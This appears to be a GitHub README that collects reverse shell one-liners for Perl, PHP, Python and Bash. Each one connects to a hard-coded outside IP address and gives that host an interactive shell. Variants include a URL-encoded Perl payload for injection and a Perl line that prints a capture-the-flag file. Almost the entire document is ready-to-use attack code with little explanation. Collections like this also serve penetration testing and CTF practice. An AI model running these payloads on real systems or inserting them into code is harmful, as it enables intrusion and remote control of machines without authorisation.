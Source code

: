 # ReverseShellScript (Not mine script)
Reverse Shell script : PERL , PHP , PYTHON
___
## PERL
ReverseShell.pl
```&gt;&amp;S``` is an encoded format that does not work in Perl or shell. (Its output will be sent out in HTML tags.)
```perl
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```

ReverseShell2.pl
```>&S``` is the correct command to redirect data to socket ```S```.
```perl
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

ReverseShell3.pl
for BIND ReverseShell ;)
```perl
perl -e 'use Socket;$i="10.8.0.99";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    select(S); $|=1;
    print S "=== Connected ===\n";
    open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");
    system("cat /home/flag.txt");
};'
```

ReverseShell URL Encode Perl
```perl
echo%20%27use%20Socket%3B%24i%3D%22192.168.0.1%22%3B%24p%3D8000%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```

## PHP
ReverseShell.php    ( The code is very longgggg !!! )

https://github.com/Sho2007/ReverseShellScript/blob/main/ReverseShell.php

ReverseShell2.php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## PYTHON
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.8.0.99",8000));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

## BASH
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


